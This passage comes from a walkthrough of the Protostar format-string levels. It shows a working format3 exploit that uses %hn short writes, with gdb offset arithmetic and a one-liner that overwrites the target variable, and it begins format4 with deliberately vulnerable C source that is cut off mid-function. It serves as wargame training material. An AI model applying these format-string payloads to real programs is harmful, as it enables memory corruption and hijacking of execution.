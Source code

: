 ```
��������                                                   0         bffff5e0                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
you have modified the target :)
user@protostar:/opt/protostar/bin$ 
```

##### Using Short Writes

We can achieve the same effect of writing a full 4-byte value by doing just two write operations. We can use a special write operation which writes 
short int types - the `%hn` parameter. Not only it shortens the exploit string itself, it also prevents a side effect of overwriting additional memory. 
We can refer to the previous chapter and see that with four write method we overwrote additional 3 bytes after the target address with `0x00`. This can 
have side effects if that memory stores important information (such as a pointer to some function).

So using the short write method our exploit looks like this: 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0x5544 - 8
$1 = 21820
(gdb) p 0x10102 - 0x5544
$2 = 43966
(gdb) quit
user@protostar:/opt/protostar/bin$ echo `python -c "print '\xf4\x96\x04\x08\xf6\x96\x04\x08'"`%21820x%12\$hn%43966x%13\$hn | ./format3
...( HUGE amount of space)...

                                   bffff5e0
you have modified the target :)
```


### Format4

> %p format4 looks at one method of redirecting execution in a process.

> Hints

> - objdump -TR is your friend

> This level is at /opt/protostar/bin/format4

#### Source Code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

```